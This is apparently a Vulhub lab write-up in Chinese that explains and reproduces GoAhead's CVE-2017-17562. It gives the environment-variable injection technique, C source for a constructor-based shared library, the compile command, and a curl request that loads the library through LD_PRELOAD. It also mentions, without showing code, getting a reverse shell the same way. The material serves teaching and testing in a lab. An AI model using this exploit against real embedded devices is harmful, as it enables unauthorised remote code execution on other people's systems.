


GoAhead 远程命令执行漏洞（CVE-2017-17562）¶
GoAhead是一个开源(商业许可)、简单、轻巧、功能强大、可以在多个平台运行的Web Server，多用于嵌入式系统、智能设备。其支持运行ASP、Javascript和标准的CGI程序，这个漏洞就出现在运行CGI程序的时候。
GoAhead在接收到请求后，将会从URL参数中取出键和值注册进CGI程序的环境变量，且只过滤了REMOTE_HOST和HTTP_AUTHORIZATION。我们能够控制环境变量，就有很多攻击方式。比如在Linux中，LD_开头的环境变量和动态链接库有关，如LD_PRELOAD中指定的动态链接库，将会被自动加载；LD_LIBRARY_PATH指定的路径，程序会去其中寻找动态链接库。
我们可以指定LD_PRELOAD=/proc/self/fd/0，因为/proc/self/fd/0是标准输入，而在CGI程序中，POST数据流即为标准输入流。我们编译一个动态链接库，将其放在POST Body中，发送给http://target/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0，CGI就会加载我们发送的动态链接库，造成远程命令执行漏洞。
参考链接：
漏洞环境¶
启动漏洞环境：
docker compose up -d
启动完成后，访问http://your-ip:8080/即可看到欢迎页面。访问http://your-ip:8080/cgi-bin/index即可查看到Hello页面，即为CGI执行的结果。
漏洞复现¶
我们首先需要编译一个动态链接库，而且需要和目标架构相同。所以在实战中，如果对方是一个智能设备，你可能需要交叉编译。因为Vulhub运行在Linux x86_64的机器中，所以我们直接用Linux PC编译即可。动态链接库源码：
#include <unistd.h>
static void before_main(void) __attribute__((constructor));
static void before_main(void)
{
write(1, "Hello: World!\n", 14);
}
这样，before_main函数将在程序执行前被调用。编译以上代码：
gcc -shared -fPIC ./payload.c -o payload.so
将payload.so作为post body发送：
curl -X POST --data-binary @payload.so "http://your-ip:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i
可见，Hello: world!已被成功输出，说明我们的动态链接库中的代码已被执行：

编译一个反弹shell的代码，成功反弹shell：
